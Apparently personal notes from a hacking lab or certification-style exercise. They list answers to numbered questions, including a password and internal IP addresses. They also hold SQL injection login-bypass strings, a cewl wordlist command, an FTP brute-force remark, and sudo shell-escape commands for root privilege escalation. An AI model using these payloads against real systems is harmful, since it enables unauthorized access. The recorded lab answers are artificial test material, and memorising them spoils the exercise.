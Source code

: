 ```
Q-7
Secret123


Q-20 
ip ADDRESS 172.16.0.40

Q-4 
pass- test
4700056

Q-5 450989878899 

Q-12 F/N 201010988818

Q19 Android
 IP 172.16.0.38
   1876890
```

### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
   
### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
